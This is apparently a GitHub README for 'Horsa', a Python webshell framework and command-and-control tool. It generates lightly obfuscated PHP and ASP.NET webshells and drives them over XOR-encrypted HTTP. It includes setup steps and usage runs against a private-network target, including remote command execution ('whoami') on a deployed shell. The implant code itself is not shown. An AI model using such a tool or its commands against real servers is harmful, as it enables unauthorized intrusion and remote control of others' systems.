 
```
-@@@@@@@@@@@%@@@@%#*+==---=-------=--=====================-==========--==-==--====================-=
-@%@@@@@@@@@@@%%%%===-----------+-----:::::::::----++------:::--:::::-+*++=+=*+-==:::::::::::::::::=
-@@@@@@@@@@@@%@@@@@@@+------=-:-::::::::::::::::-+=--:-:----:-:::-::::=##******=+::::::::::::::::::-
=@@@@%@@@@@%%@@@@@@@@@@@:::::-::::::::::::::::::--=-:-:-:-=--:::-+---::+#*#*#*##+::::::::::::::::::-
-**#%@@@@%%#*=@@@@@@@@@@@@--===--------:::::::::::::::::---::::::=::::::-+*#%%%==*:::::::::::::::::-
=*+++%@%@+***++@@@@@@@@@@@@@+++===-------::::::::::::::::::::::::::::-::+*#%%%%#=-:::::::::-:::::::=
-*++***+==+**#*++@@@@@@@@@@@@@%+===------::::::::::::::::::::::::::::---:*+##%**++:::::-=:-:-:::-::-
=###***+++*##*+***#@@@@@@@@@@@@@@==--------::::::::::::::::::::::::::::+=*###%%%%%*+-:=--::-=::::::-
=%%%%%%######***###*@@@@@@@@%@@@@@@--------:::::::::::::::::::::::::::::=****+*#**+*+===-::-:-----=-
=@@%#%%%%%%####***+**+@@@@@@@@@@@@@@@=----:::::::::::::::::::::::::::::-+*+=+++++++++===---:-::-----
=%%%%##%#%#####*******+@@@@@@@@@@@@@@@@%-::::::::::::::::::::::::::::::-+++===*+=+*++**+=--:::::::--
=%%###*###***##**++++++==@@@@@@@@@%@@@@@@@:::::::::::::::::::::::::::::::---+==-----=---::::::::::--
=####*********+++++=======-@@@@@@@@@@@@@@@@@::::::::::::::::::::::::::::::-::+-====-=::::::---:::::-
=####*******++++=========---@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::--+--:---:::---::::-
=#####*****++===---=---------:@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::::--::---:--::-::-
=#########**+=+=---=----:::::::@@@@@@@@@@@@@@@@@@@:::::::::::::::::-:=*::::::::::::::::::-==-::::::-
=##########*++*+++++=---:--::--:@@@@@@@@@@@@@@@@@@@=-::::::::#@@@@@@@@@@@:::::::::::::-:---::::::::-
=*##+#%####@@@@@@*###*=+++=-------@@@@@@@@@@@@@@@@@@@=@@@@@@@@@@@@@@@@@@@@::::::::::-:-------::::::-
=*##########%@@@@@@+**+@%++=--:::::-@@@@@@@@@@@@@@@@@@@@@@@@%%@@@@@@@@@@@@@:::::::::===+==-:::-::::-
=#**##########*@@@@@@@@@@+=-::::::::-#@@@@@@@@@@@@@%%%@@@@@@@@@@@@@@@@@@:::::::::::--**++*+-:::::::-
=*****######*##**@@@@@@%@---::::*@@@@@@@@@@@%%%%%%%%%%%@@@@@@@@@@++@::::::::::::::::-+*####*=--::::-
=****#####********+@@@@@@#%@@@@@##@@#@@@@@@@@%%%%%%@@@@@@@@:::::::#:::::::::-::::----++**##*+---:::-
=++***#******+=---@@@@@@@@@@@@##%##%%@@@@@@@@@@@@@@@@@@@@@@@:::::::::::::::-=:-:==----=-=*#***---::-
==+********+++--:@@@@@@@%%%@@@@@@%%%%%@#:::::@@@@@@@@@@@@@@@@:::::::::::::::----+++------=+****+===-
==++******+++---:-::-:::::@@@@@@:::::::::::::::@@@@@@@@@@@@@@*::::::::::::::::=+++-==----:-=++**+==-
==+++*++++==+=--------------:==-::::::::::::::::#@@@@@@@@@@@@@::::::--:::::-::---=--===----:-==+++=-
=-=++=+**+++=-=-=------------::::::::::::::::::::::@@%@@@@@@@@@:::::::::::::::::------=+=-::::--==--
=-==+++++++==========-=----::::-:::::::::::::----:::::#@@@@@%@@@:--:::::::::::::::---------::::::::-
=-===++++++=++++=======--=--------::::::::::--=-::::::::+%@@%%@@#:::--:::::::::::::::------::::::::-
=---====++++++++++=--=====--=------:::::::::::--:::::::::::%@@@@@:::---:::::::-:::::::-----::-:::::-
=-----===++++++*++++=====--=-==----:::::-:::--:::::-:::::::::::::::::::---:::::::::::-------:::::::-
=---------=+++++++++++=====--------------:::::::::::::::::::::::::::::::::::--:--:------:---:::::::-
=-----------================--=--=------:-:::::::::::::::::::::::::::::::::----------::::::-:::::::-
=--------:-------------==-==------==--::::::::::::::::::::::::::::::::::::::::-:------:::::::::::::-
=-------:::::-----------------------=---:::::::::::::::::::::::::::::::::::::::::----:-:::::::---::-
=---------::::::::------------------------:::::::::::::::::::::::::::::::::::::::::-::::::::-::-----
=----------:::::::------:--:--:---::---------::::::::::::::::::::::::::::::::::::::::::::::::::-----
=:------:-------:::-:::::::::::-::::::-------::::::::::::::::::::::::::::::::::::::::::::::::::::::-
=::-------------:::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::-:--:--
==============================================--=-=----------------:::::::::::::::::::::::::-:-:-=--
```
![Python](https://img.shields.io/badge/python-3.11-blue.svg)
![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

The Airspeed Horsa was a British military glider used during World War II. It was designed by the British manufacturer Airspeed Limited in response to a requirement from the British military for a large transport glider that could carry troops in support of airborne operations

Despite being a large and cumbersome aircraft, was well-liked by the troops who used it, especially during the Normandy landings in June 1944, where it played a crucial role.

## [+] Overview

Horsa is a **webshell framework and command-control (C2)** made in #Python. The project is built around two core functionalities. Alternatively, the Python's wrapper can generate webshells in #ASP.NET or #PHP on fly or interact with agents deployed on target.

The content of the HTTP(S) communications between the wraper and a deployed webshell are #XOR encrypted and base64-encoded. 

>[!WARNING]
>Note the user-agent (UA) and the XOR key can be configured through a custom command-line interface (CLI). 

The Horsa webshell's have **working but limited capabilities**, such as:
- **command execution** through dangerous native functions (PHP) or cmd.exe built-in binary (ASPX)
- **file upload**
- *few PHP functions and download capabilities may be added in the future (maybe not)*

The PHP template used to generate new agent is **lightly obfuscated**. The ASP.NET may soon benefit from a similar treatment.

The whole project is **object oriented** and structured as follow:
- `main.py`: Python's wrapper entry point
- `core/session.py`: this class is related to the core functionalities of Horsa (generate, interact)
- `core/handler.py`: the handler class builds command understandable for Horsa's agents
- `core/request.py`: this class handles the communication between the wrapper and the agents
- `core/config.py`: parameters configurable to customize the project
- `output/`: generated webshells are written here
- `implant/`: webshell templates can be found here (ASP.NET and PHP)

## [+] Recommended setup

After`git clone` the project, you should a create a clean Python's virtual environment and install the requirements using #pip tool:
```bash
cd horsa
python -m virtualenv horsa-venv
source horsa-venv/bin/activate/
pip3 install -r requirements
```
## [+] Usage

The Python wrapper is user-friendly. To generate an ASP.NET or PHP webshell, use the following command:

```shell
# proxychains -q rlwrap python3 main.py --generate --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[*] Generating an Horsa webshell
+ filename: test.aspx
+ language: aspx
+ auth-key: mypassword
[+] Horsa webshell in aspx available at output/test.aspx
[+] You may deploy this webshell then run Horsa on --interact mode
[+] Exiting now!
```

Remember, you can get help to use the CLI by typing the following command in a shell:

```bash
python3 main.py --help
```

To interact with a deployed agents, use the following commands:

```bash
# proxychains -q rlwrap python3 main.py --interact --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[+] Horsa webshell found on target
[*] Use :help to list built-in commands
+ target: http://10.0.4.195/test.aspx
+ user-agent: hora-ws
+ language: aspx
+ auth-key: mypassword
DefaultAppPool@TESTAPP1: C:/inetpub/wwwroot/]$ :shell whoami
iis apppool\defaultapppool
```

## [+] Credits
A special thanks goes to :
- **[weevely3](https://github.com/epinna/weevely3)** is the mother-of-all the webshell framework projects. You know what I mean, and if you not, just try this piece of masterwork.
- **[SharPyShell](https://github.com/antonioCoco/SharPyShell)** was vital to better understans how to use ASP.NET to get a working .aspx agent. His projet is far more achieved than I could ever imagined regarding Horsa. Kudo to @antonioCoco
